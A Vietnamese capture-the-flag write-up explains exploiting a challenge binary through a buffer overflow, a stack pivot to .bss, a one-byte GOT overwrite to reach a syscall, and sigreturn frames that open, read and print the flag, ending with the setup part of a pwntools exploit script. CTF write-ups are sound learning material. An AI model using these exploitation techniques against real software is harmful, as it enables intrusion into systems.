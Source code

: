 ![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/2a45ba6a-0dba-4090-911c-13a6fbde4a40)

buffer bị overflow bắt đầu tại `a60`, sau lệnh leave của main thì RBP sẽ là giá trị tại `a80`, ta có thể đưa địa chỉ của .bss vào để pivot stack. Ở đây ta có thể control RIP về `0x401469`

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/5c12d8f1-b4f1-42d4-b33d-3e33ea918668)

Do ta đã control RBP, với gadget này ta sẽ thực hiện ghi 48 byte đến `RBP-0x20` trước rồi sau đó mới thực hiện leave để pivot lên .bss. Giờ đây ta cần giải quyết vấn đề tiếp theo, ta có thể ROP nhưng thiếu đi gadget `syscall`, sau khi kiểm tra các GOT entry thì mình phát hiện là nếu ta ghi đè 1 byte đầu của alarm@got thì ta sẽ có thể có được `syscall` instruction, tuy không biết libc nhưng việc bruteforce 0xff thì không khó. Sau khi có instruction `syscall` thì mình nghĩ đến dùng `read` để control rax và dùng sigreturn để để gọi đến lần lượt 3 syscall `open`, `read`, `writev`. Thông qua bruteforce thì mình biết được byte cần ghi để biến instruction tại alarm@got thành `syscall` là `\x0b`, cách mình bruteforce là mình sẽ canh để ghi ghi 1 byte vào alarm@got xong thì nó sẽ return về đúng địa chỉ đó luôn, vì `main+66` là lệnh `mov eax, 0` nên chắc chắn lúc đó rax sẽ là `0x0`.

![image](https://github.com/CP04042K/cp04042k.github.io/assets/35491855/4b9cdfa6-36c4-42cc-81ba-90ba0ea47036)

Nếu như alarm@got lúc này đúng là syscall thì nó sẽ gọi đến syscall `read` và bị delay, ngay sau alarm@got sẽ là read@got, do đó mà chương trình sẽ tiếp tục wait for input và bị delay thêm một lần thứ 2, đây sẽ là dấu hiệu để ta xác định được rằng byte ta ghi đã đúng chưa.

Sau khi có `syscall` rồi thì bây giờ ta chỉ cần setup 3 sigreturn frame và thực hiện sigreturn để control các register và gọi đến các syscall `open`, `read`, `writev` nữa là được

```py
from pwn import *
from pwn import u64, u32, p64, p32, unpack, asm

# PwnableVN{n0_m0r3_cSu__Wh!t3L!5T_Is_b3tT3r}

if args.REMOTE:
    io = remote("blacklist.pwnable.vn", 31337)

else:
    io = process("./sym")


exe = ELF("./sym")
main = 0x000000000040143d
ret = 0x401485


mis_aligned_read = 0x0000000000401469
pivot_bss_addr = 0x4040a8
pivot_2 = 0x404168+40
pivot_3 = 0x4042b8
pivot_4 = 0x404430
signal_got = 0x404058
alarm_got = 0x404028
leave_ret = 0x0000000000401484
ret = 0x0000000000401485
pop_rbp = 0x000000000040123d
jmp_rax = 0x40120e
sig_frame = 0x4041c0
sig_frame_2 = 0x4042b8+8+8*6
sig_frame_3 = 0x404430+8+8*6

SYS_open = p64(2)
SYS_read = p64(0)
SYS_writev = p64(20)
flag_str = p64(0x404020)
next_rip = p64(ret)
next_rbp = p64(0x404280) 
```